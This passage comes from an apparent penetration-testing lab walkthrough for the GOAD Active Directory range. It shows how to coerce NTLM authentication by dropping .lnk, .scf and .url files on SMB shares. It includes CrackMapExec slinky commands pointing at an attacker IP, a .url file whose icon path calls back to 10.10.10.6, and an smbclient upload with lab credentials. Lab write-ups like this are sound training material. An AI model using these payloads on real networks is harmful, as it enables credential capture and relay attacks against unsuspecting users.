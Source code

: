> Here the file start with a "." so it will be hidden if you don't activate show hidden file option.
> The coerce only append when the file is showed (so in a pentest i recommend to not use a filename starting with ".")
{: .prompt-info }

Obviously we could also do a ntlmrelayx to not smb signed server and get share access or admin access depending on the relayed authentication target.

- And to cleanup the slinky file : 

```bash
cme smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M slinky -o NAME=.thumbs.db SERVER=attacker_ip CLEANUP=true
```

### .scf : sucffy

- Cme also got an other module, with the name "scuffy" and it act exactly the same as slinky but with scf file.

### .url file

- We can do the same with a .url file: `vim clickme.url`

```
[InternetShortcut]
URL=http://click.me/pwned
WorkingDirectory=test
IconFile=\\10.10.10.6\%USERNAME%.icon
IconIndex=1
```

- Upload the file :

```
smbclient.py north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
use all
put clickme.url
```

![part13_url_upload.png](/assets/blog/GOAD/part13_url_upload.png)

- And we also get the callback when the victim visit the share:

![part13_url_callback.png](/assets/blog/GOAD/part13_url_callback.png)

